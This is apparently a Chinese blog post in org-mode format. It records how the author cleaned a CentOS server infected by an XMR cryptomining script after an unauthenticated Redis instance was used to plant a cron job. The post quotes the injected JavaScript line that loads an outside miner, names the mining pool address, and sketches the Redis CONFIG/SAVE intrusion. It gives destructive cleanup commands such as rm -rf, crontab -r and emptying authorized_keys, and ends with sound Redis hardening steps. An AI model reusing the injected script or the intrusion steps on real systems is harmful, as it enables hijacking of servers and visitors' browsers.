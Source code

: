 #+TITLE:  XMR 恶意挖矿脚本处理笔记 
#+AUTHOR:    zrg
#+EMAIL:     zrg1390556487@gmail.com
#+LANGUAGE:  cn
#+OPTIONS:   H:3 num:nil toc:nil \n:nil @:t ::t |:t ^:nil -:t f:t *:t <:t
#+OPTIONS:   TeX:t LaTeX:t skip:nil d:nil todo:t pri:nil tags:not-in-toc
#+INFOJS_OPT: view:plain toc:t ltoc:t mouse:underline buttons:0 path:http://cs3.swfc.edu.cn/~20121156044/.org-info.js />
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="http://cs3.swfu.edu.cn/~20121156044/.org-manual.css" />
#+EXPORT_SELECT_TAGS: export
#+HTML_HEAD_EXTRA: <style>body {font-size:14pt} code {font-weight:bold;font-size:12px; color:darkblue}</style>
#+EXPORT_EXCLUDE_TAGS: noexport
#+LINK_UP:   
#+LINK_HOME: 
#+XSLT: 

#+STARTUP: showall indent
#+STARTUP: hidestars
#+BEGIN_EXPORT HTML
---
layout: post
title: XMR 恶意挖矿脚本处理笔记
author: zrg
description:   
excerpt: 
comments: false
categories: 
- linux
tags:
- 比特币
- 恶意挖矿
- 病毒
- Bitcoin
- Mining
- Virus
---
#+END_EXPORT

# (setq org-export-html-use-infojs nil)
感谢您阅读此文，如果您发现任何错误，请发邮件至 zrg1390556487@gmail.com，谢谢！
# (setq org-export-html-style nil)

* 事件描述
** 概况
: 服务器安装系统为 CentOS 7，服务器用户一直采用密钥登录，通过用户登入攻击的可能性几乎为零。
: 服务器上所有站点使用宝塔面板面板管理，所以可能性是通过攻破了宝塔面板进入，然后注入恶意挖矿脚本的。
: 网站无法加载，会出现浏览器卡死的情况。
** 表象
: 下面陈述被攻击后的表象：
+ 服务器资源被大量占用，资源占用率飙升；
+ 服务器所有JS文件被篡改，向输出页面增加了一个script标签（document.write('<script src="http://t.cn/EvlonFh"></script><script>OMINEId("e02cf4ce91284dab9bc3fc4cc2a65e28","-1")</script>');）
+ 网站无法加载，会出现浏览器卡死的情况
* 问题排查及解决
** 排查
: 1. 访问服务器上运行的站点（包括宝塔面板），F12，发现不停访问一个wss的地址（wss://xmr.omine.org:8181/），并且很慢。
: 2. 搜索这个地址，得知此为 XMR 恶意挖矿脚本。
: 3. 查看系统任务计划，发现定期恶意脚本的计划内容
: # crontab -l
: 4. 由于redis没有安全配置，黑客利用redis安全漏洞入侵了服务器。
: 攻击者通过redis命令 config set与save完成入侵过程.使用redis-cli -h <ip> <port> 登录服务redis-server，
: 将redis的数据文件改到/var/spool/cron/root文件中，再通save 命令将定时任务shell脚本写入到/var/spool/cron/root 中，
: 完成定时执行shell脚本，来实现提权及其它操作。
** 解决
: 1. 整理清理脚本
#+NAME: 清理脚本
#+BEGIN_SRC shell
# 先关掉redis端口
iptables -A INPUT -p tcp --dport 6379 -j DROP
# 清理定时任务
crontab -r
# 清除redis key Back1 Back3 Back3
redis-cli -h xxx.xxx.xxx.xxx -x del Back1
redis-cli -h xxx.xxx.xxx.xxx -x del Back2
redis-cli -h xxx.xxx.xxx.xxx -x del Back3
redis-cli -h xxx.xxx.xxx.xxx -x CONFIG SET dbfilename dump.rdb
redis-cli -h xxx.xxx.xxx.xxx -x CONFIG SET dir /tmp
redis-cli -h xxx.xxx.xxx.xxx -x save
# 清理运行脚本
kill -9 `ps -ef|grep shz.sh|grep -v grep|awk '{print $2}'`
kill -9 `ps -ef|grep zigw|grep -v grep|awk '{print $2}'`
kill -9 `ps -ef|grep cmd|grep -v grep|awk '{print $2}'`
chattr -i /etc/zigw
chattr -i /etc/shz.sh
chattr -i /tmp/zigw
chattr -i /tmp/shz.sh
rm -rf /etc/shz.sh
rm -rf /etc/gmbpr2
rm -rf /etc/zigw
rm -rf /tmp/zigw
rm -rf /tmp/shz.sh
rm -rf ~/.cmd
 
# 清理SSH免登录信息
cat /dev/null> ~/.ssh/authorized_keys
# 清理js脚本
find / -name '*.js'|xargs grep -L f4ce9|xargs sed -i '$d'
mv /usr/bin/get /usr/bin/wget
mv /usr/bin/url /usr/bin/curl
#+END_SRC

#+NAME: 附个清理的其它方式脚本
#+BEGIN_SRC shell
#!/bin/bash
# By xzeu
# http://www.xzeu.com
# Email: admin#xzeu.com
# Filename: clearlink.sh
 
#Begin
find / -type f -name '*.js' |xargs fgrep -s -l "e02cf4ce91284dab9bc3fc4cc2a65e28"|xargs ls -l |awk '{print $9}'>jsfile.txt
for file in `cat ~/jsfile.txt`;
do
  echo $file
  # sed -i '/e02cf4ce91284dab9bc3fc4cc2a65e28/d' $file
  # cp $file ${file}.bad
done
 
exit 0
#END
#+END_SRC

: 2. 恢复服务器中的js文件(其中grep的参数为小写的L)
: 方法一：删除站点所有感染 js 文件，从代码仓库pull，重新上传部署。
: 方法二：# find / -name '*.js' | xargs grep -l f4ce9 | xargs sed -i '/f4ce9/d'
** 预防
: 1. 限制内网访问，或者只限制本机访问
: 只监听内网的IP，然后在iptables里面限制访问的主机：在/etc/redis/redis.conf中配置如下：
: bind 192.168.1.100
: 如果服务只需要本机访问就直接监听127.0.0.1的回环地址就可以了。

: 2. 设置防火墙
: 如果需要其他机器访问，或者设置了slave模式，那就记得加上相应的防火墙设置，命令如下：
: iptables -A INPUT -s 192.168.1.100/32 -p tcp --dport 6379 -j ACCEPT

: 3. 禁止root用户启动redis
: 使用root权限去运行网络服务是比较有风险的（nginx和apache都是有独立的work用户，而redis没有）。
: edis crackit 漏洞就是利用root用户的权限来替换或者增加authorized_keys，来获取root登录权限的。
: 使用root切换到redis用户启动服务:
: useradd -s /sbin/nolog -M redissetsid sudo -u redis /usr/bin/redis-server /etc/redis/redis.conf

: 4. 限制redis文件目录访问权限
: 设置redis的主目录权限为700,如果redis配置文件独立于redis主目录,权限修过为600,因为redis密码明文存储在配置文件中。

: 5. 避免使用熟知的端口,降低被初级扫描的风险
: 在/etc/redis/redis.conf中配置如下：
: 找到port 6379这行，把6379改为9999，记得iptables对应的端口要修改

: 6. 开启redis密码认证,并设置高复杂度密码
: redis在redis.conf配置文件中，设置配置项requirepass， 开户密码认证。
: redis因查询效率高，auth这种命令每秒能处理10w次以上，简单的redis的密码极容易为攻击者暴破。 

: 7. 禁用或者重命名危险命令
: edis crackit漏洞就利用config/save两个命令完成攻击 。 因redis无用户权限限制，建议危险的命令，
: 使用rename配置项进行禁用或重命名，这样外部不了解重命名规则攻击者，就不能执行这类命令。涉及到的命令：
: FLUSHDB, FLUSHALL, KEYS, PEXPIRE, DEL, CONFIG, SHUTDOWN, BGREWRITEAOF, BGSAVE, SAVE, SPOP, SREM, RENAME, DEBUG, EVAL`
: 以下示例：redis.config文件禁用FLUSHDB、FLUSHALL两个命令；重命名CONFIG、SHUTDOWN命令，添加一个特殊的后缀。
: 这样redis启动后，只能运行CONFIG_b9fc8327c4dee7命令，不能执行CONFIG命令。
: rename-command CONFIG CONFIG_des327c4dee7dfsf
: rename-command SHUTDOWN SHUTDOWN_des327c4dee7dfsf
: rename-command FLUSHDB ""
: rename-command FLUSHALL ""
: 上述配置将config，flushdb，flushall设置为了空，即禁用该命令，我们也可以命名为一些攻击者难以猜测，
: 我们自己却容易记住的的名字。保存之后，执行/etc/init.d/redis-server restart 重启生效。
* 参考
+ [[https://www.cnblogs.com/Rebybyx/p/9913779.html][XMR恶意挖矿脚本处理笔记]]
+ [[https://www.freebuf.com/articles/system/186743.html][XMR恶意挖矿案例简析]]
+ [[https://www.xzeu.com/index.php/archives/120/][Redis未授权访问缺陷,服务器变矿机]]
